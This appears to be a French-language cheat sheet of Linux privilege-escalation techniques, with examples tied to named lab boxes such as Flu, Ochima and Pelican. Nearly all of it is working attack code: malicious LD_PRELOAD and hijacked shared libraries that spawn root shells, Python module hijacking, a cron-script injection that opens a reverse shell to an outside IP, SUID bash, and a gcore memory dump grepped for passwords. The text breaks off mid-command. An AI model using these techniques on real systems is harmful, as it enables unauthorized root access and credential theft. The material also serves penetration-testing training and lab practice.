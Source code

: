 ### Kernel Exploits
> Exploiter des vulnérabilités du noyau Linux

```bash
# Vérifier la version du noyau
uname -a
cat /etc/lsb-release 

# Compiler un exploit
gcc kernel_exploit.c -o kernel_exploit
chmod +x kernel_exploit
./kernel_exploit
```
### Shared Libraries
> Exploiter le chargement de bibliothèques partagées

```bash
# Vérifier LD_PRELOAD dans sudo
sudo -l

# Créer une bibliothèque malveillante
cat << EOF > root.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
EOF
gcc -fPIC -shared -o root.so root.c -nostartfiles

# Exécuter avec LD_PRELOAD
sudo LD_PRELOAD=/tmp/root.so [commande autorisée]
```
### Shared Object Hijacking
> Détourner des objets partagés (.so)

```bash
# Vérifier les bibliothèques utilisées par un binaire
ldd [binaire]

# Vérifier les chemins RUNPATH
readelf -d [binaire] | grep PATH

# Créer une bibliothèque malveillante
cat << EOF > src.c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
EOF
gcc src.c -fPIC -shared -o /chemin/vers/libshared.so
```
### Python Library Hijacking
> Détourner des bibliothèques Python pour élever les privilèges
#### Wrong Write Permissions
```bash
# Vérifier si des modules Python ont des permissions d'écriture incorrectes
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

# Injecter du code malveillant dans une fonction
# Dans __init__.py:
def virtual_memory():
    import os
    os.system('/bin/bash')
    # Code original...
```
#### Library Path
```bash
# Vérifier les chemins Python
python3 -c 'import sys; print("\n".join(sys.path))'

# Créer une bibliothèque malveillante dans un chemin prioritaire
cat << EOF > /usr/lib/python3.8/psutil.py
#!/usr/bin/env python3
import os
def virtual_memory():
    os.system('/bin/bash')
EOF
```
#### PYTHONPATH Environment Variable
```bash
# Vérifier les droits sudo
sudo -l

# Créer un module malveillant
cat << EOF > /tmp/psutil.py
#!/usr/bin/env python3
import os
def virtual_memory():
    os.system('/bin/bash')
EOF

# Exécuter avec PYTHONPATH modifié
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./script.py
```

## Techniques d'élévation de privilèges Linux dans des Box
### Exploitation de tâches cron
Exemple (Flu):
```bash
# Identifier les tâches cron via pspy
./pspy64

# Injecter du code dans un script exécuté par cron
echo 'sh -i >& /dev/tcp/192.168.49.x/9876 0>&1' >> /opt/log-backup.sh
```
Exemple (Ochima):
```bash
# Modifier un script de sauvegarde exécuté par cron
echo "chmod +s /bin/bash" >> /var/backups/etc_Backup.sh
# Attendre l'exécution puis:
/bin/bash -p
```
### Exploitation de processus en mémoire
Exemple (Pelican):
```bash
# Utiliser gcore pour dumper la mémoire d'un processus
sudo /usr/bin/gcore 494
strings core.494 | grep -i pass
```
### Exploitation d'applications Python
Exemple (BitForge, RubyDome):
```bash
# Remplacer un fichier Python exécuté avec sudo
echo 'import os; os.system("
```